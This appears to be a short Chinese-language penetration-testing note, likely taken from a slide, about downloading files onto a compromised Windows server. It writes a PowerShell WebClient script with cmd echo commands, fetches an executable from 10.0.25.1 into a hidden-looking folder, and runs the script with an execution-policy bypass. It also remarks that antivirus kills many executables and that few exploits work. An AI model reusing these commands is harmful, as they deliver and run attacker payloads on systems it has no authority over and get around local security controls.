

文件下载到服务器：
echo ^$d = New-Object System.Net.WebClient >> c:\KRECYCLE\1.ps1 & echo ^$d.DownloadFile(^"http://10.0.25.1/others/64.exe^",^"c:\KRECYCLE\3.exe^") >> c:\KRECYCLE\1.ps1
注意某些字符需要加上转义字符^
powershell -ExecutionPolicy Bypass -File c:\KRECYCLE\1.ps1
powershell默认是不能执行的，但是这样绕过
但是很多EXE都是被干掉的！EXP也没几个能用！